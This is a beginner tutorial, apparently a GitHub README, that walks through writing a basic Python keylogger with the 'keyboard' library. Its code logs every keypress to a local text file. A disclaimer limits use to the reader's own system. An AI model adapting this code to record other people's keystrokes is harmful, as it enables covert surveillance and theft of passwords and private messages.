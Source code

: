 # Keylogger

Basic beginner keylogger

# Disclaimer

This tutorial is for educational purposes only and should only be used on your personal system. 
# Prerequisites

Personal host, I recommend doing this in a Windows VM.

Python, code editor, Im using Visual Studio Code.

# Step 1
Install the Required Library.

Open your command prompt or terminal and execute the following command: "pip install keyboard"

# Step 2 Importing the Necessary Libraries
This library will enable us to work with keyboard inputs. Insert the following line of code:

import keyboard

# Step 3 
Define the Log File

In this example, we’ll use ‘keystrokes.txt’ as the file name. Feel free to modify it as desired. Add the following line of code:

log_file = 'keystrokes.txt'

# Step 4
Create the Key Press Event Function

def on_key_press(event):
    with open(log_file, 'a') as f:
        f.write('{}\n'.format(event.name))
        
# Step 5 
Register the Key Press Event

Register the ‘on_key_press’ function to be called whenever a key is pressed. This will enable our code to capture the keystrokes. Add the following line:

keyboard.on_press(on_key_press)
# Step 6 
Finally, we want our program to wait until a key is pressed before it exits. Use the 

‘keyboard.wait()’

function to accomplish this.

# Step 7: 
Run the Code

py keylogger.py

# Final Code

![Screenshot 2024-07-29 114950](https://github.com/user-attachments/assets/b4c6529f-d7b0-4ef3-b638-9813c1f0cb9b)

Save your Python script with a ‘.py’ extension for example, I named my file "keylogger.py" and stored it on my desktop for easy access. Open your command prompt or terminal, navigate to the directory where the script is located, and execute the command:

![Screenshot 2024-07-29 122614](https://github.com/user-attachments/assets/f943a530-664c-4562-bb25-b1f051e2e85f)

 
